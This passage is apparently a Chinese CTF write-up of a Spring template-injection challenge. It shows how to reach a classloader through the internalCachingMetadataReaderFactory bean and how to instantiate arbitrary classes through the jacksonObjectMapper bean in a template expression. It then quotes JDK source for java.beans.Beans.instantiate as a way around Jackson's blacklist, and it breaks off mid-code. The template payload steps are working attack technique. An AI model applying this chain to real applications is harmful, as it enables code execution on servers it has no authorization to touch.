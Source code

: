 一堆输出，其中的internalCachingMetadataReaderFactory对象可以拿到classLoader

```java
this.applicationContext.getBean("org.springframework.boot.autoconfigure.internalCachingMetadataReaderFactory")
```

![image-20220907172251785](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20220907172251785.png)

我们可以用它的loadClass加载任意类了，但是我们再继续用它的方法，幸运的是这里还有jackson，beans里面也能获取到

![image-20220907173342035](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20220907173342035.png)

可以用jackson获取到类的实例，进而调用方法

```
{%set ame = beans.get("jacksonObjectMapper").readValue("{}", classssss)%}
```

### 绕过jackson黑名单

然而题目环境是最新的java18，常用的一些办法不能用，比如ScriptEngineManager，由于jackson实例化限制我们也不能直接实例化jshell；但是我们可以借助java.beans.Beans类，它可以帮我们实例化任意方法

```java
public static Object instantiate(ClassLoader cls, String beanName,
                                 BeanContext beanContext,
                                 AppletInitializer initializer)
        throws IOException, ClassNotFoundException {
    InputStream ins;
    ObjectInputStream oins = null;
    Object result = null;
    boolean serialized = false;
    IOException serex = null;
    // If the given classloader is null, we check if an
    // system classloader is available and (if so)
    // use that instead.
    // Note that calls on the system class loader will
    // look in the bootstrap class loader first.
    if (cls == null) {
        try {
            cls = ClassLoader.getSystemClassLoader();
        } catch (SecurityException ex) {
            // We're not allowed to access the system class loader.
            // Drop through.
        }
    }
    // Try to find a serialized object with this name
    final String serName = beanName.replace('.','/').concat(".ser");
    if (cls == null)
        ins =  ClassLoader.getSystemResourceAsStream(serName);
    else
        ins =  cls.getResourceAsStream(serName);
    if (ins != null) {
        try {
            if (cls == null) {
                oins = new ObjectInputStream(ins);
            } else {
                oins = new ObjectInputStreamWithLoader(ins, cls);
            }
            result = oins.readObject();
            serialized = true;
            oins.close();
        } catch (IOException ex) {
            ins.close();
            // Drop through and try opening the class.  But remember
            // the exception in case we can't find the class either.
```